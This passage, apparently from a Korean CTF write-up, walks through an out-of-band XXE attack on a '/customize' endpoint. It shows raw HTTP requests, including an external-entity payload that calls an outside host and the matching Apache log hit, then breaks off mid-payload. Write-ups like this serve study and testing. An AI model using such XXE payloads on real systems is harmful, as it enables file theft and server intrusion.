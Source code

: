 ```
// Request
POST /customize HTTP/1.1
Host: 207.180.200.166:5000
Content-Length: 33
Content-Type: application/xml
Cookie: session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYXNkZmUifQ.YBaKbw.aHQ999GYFVmDPqp_8r4y-rxraOw
Connection: close

{"color" : "red", "size": "20px"}


// Response
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 31 Jan 2021 11:52:00 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 70
Connection: close
Vary: Cookie

Start tag expected, '<' not found, line 1, column 1 (<string>, line 1)
```
여기서 Content-Type을 `application/xml`로 바꿔서 보내주면 XML Parsing 에러가 나는 것을 볼 수 있습니다. 이 말은 XML이 작동 중이며 XXE 공격이 가능하다는 소리입니다. 일단 색상과 사이즈의 크기는 응답에 포함되지 않기 때문에 일반적인 XXE 기법을 이용할 순 없습니다. 그래서 `Out-of-band XXE` 기법을 이용하기로 했고, 해당 기법을 쓸려면 일단 DTD를 로드 할 수 있는 지 확인해야합니다.<br>

```
// Request
POST /customize HTTP/1.1
Host: 207.180.200.166:5000
Content-Length: 175
Content-Type: application/xml
Cookie: session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYXNkZmUifQ.YBaKbw.aHQ999GYFVmDPqp_8r4y-rxraOw
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE pocas [<!ENTITY xxe SYSTEM "http://141.164.52.207/test">]>
<pocas>
    <color>&xxe;</color>
    <size>40px</size>
</root>


// Aapache Log
207.180.200.166 - - [31/Jan/2021:12:14:10 +0000] "GET /test HTTP/1.0" 404 456 "-" "-"
```
확인을 해보니 잘 되는 것을 볼 수 있습니다.<br>

```
// Request
POST /customize HTTP/1.1
Host: 207.180.200.166:5000
Content-Length: 170
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.96 Safari/537.36
Content-Type: application/xml
Cookie: session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYXNkZmUifQ.YBaKbw.aHQ999GYFVmDPqp_8r4y-rxraOw
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
```
